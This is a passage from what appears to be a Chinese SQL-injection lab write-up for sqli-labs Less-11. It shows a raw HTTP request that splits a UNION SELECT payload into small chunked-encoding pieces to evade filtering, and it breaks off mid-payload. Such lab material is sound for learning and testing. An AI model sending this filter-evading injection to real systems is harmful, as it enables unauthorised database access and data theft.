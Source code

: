     

![](https://gitee.com/fuli009/images/raw/master/public/20230304135624.png)

#### 读取表名：

    
    
    POST /sqli-labs-master/Less-11/ HTTP/1.1  
    Host: 192.168.172.161  
    Content-Length: 619  
    Cache-Control: max-age=0  
    Upgrade-Insecure-Requests: 1  
    Origin: http://192.168.172.161  
    Content-Type: application/x-www-form-urlencoded  
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.0.0 Safari/537.36  
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9  
    Referer: http://192.168.172.161/sqli-labs-master/Less-11/  
    Accept-Encoding: gzip, deflate  
    Accept-Language: zh-CN,zh;q=0.9  
    Connection: close  
    Transfer-Encoding: chunked  
      
    1  
    u  
    2  
    na  
    1  
    m  
    1  
    e  
    1  
    =  
    1  
    &  
    2  
    pa  
    2  
    ss  
    2  
    wd  
    1  
    =  
    3  
    %27  
    1  
    u  
    2  
    ni  
    1  
    o  
    1  
    n  
    1  
    +  
    2  
    se  
    2  
    le  
    1  
    c  
    1  
    t  
    1  